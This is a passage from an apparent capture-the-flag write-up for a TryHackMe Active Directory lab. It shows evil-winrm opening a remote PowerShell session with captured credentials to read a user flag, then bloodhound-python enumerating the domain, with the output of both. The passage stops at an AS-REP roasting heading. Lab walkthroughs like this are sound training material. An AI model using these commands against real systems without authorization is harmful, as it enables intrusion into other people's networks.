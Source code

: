 ### Using evil-winrm to get a shell

Using the credentials we have, we can use `evil-winrm` to get a shell and read the user flag.

```console
$ evil-winrm -i haystack.thm.corp -u 'automate' -p '[REDACTED]'
*Evil-WinRM* PS C:\Users\automate\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\automate\Desktop> dir


    Directory: C:\Users\automate\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/21/2016   3:36 PM            527 EC2 Feedback.website
-a----        6/21/2016   3:36 PM            554 EC2 Microsoft Windows Guide.website
-a----        6/16/2023   4:35 PM             31 user.txt

```

## Access as tabatha_britt

### Enumeration with BloodHound

Apart from getting a shell with the credentials we have, we can also use them to collect `BloodHound` data.

I will use [bloodhound-python](https://github.com/dirkjanm/BloodHound.py) for this.

```console
$ bloodhound-python -ns 10.10.220.239 --dns-tcp -d THM.CORP -u 'automate' -p '[REDACTED]' -c All --zip
INFO: Found AD domain: thm.corp
INFO: Getting TGT for user
INFO: Connecting to LDAP server: haystack.thm.corp
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: haystack.thm.corp
INFO: Found 42 users
INFO: Found 55 groups
INFO: Found 3 gpos
INFO: Found 222 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: HayStack.thm.corp
INFO: Done in 00M 47S
INFO: Compressing output into 20240127002200_bloodhound.zip
```

### AS-REP Roasting
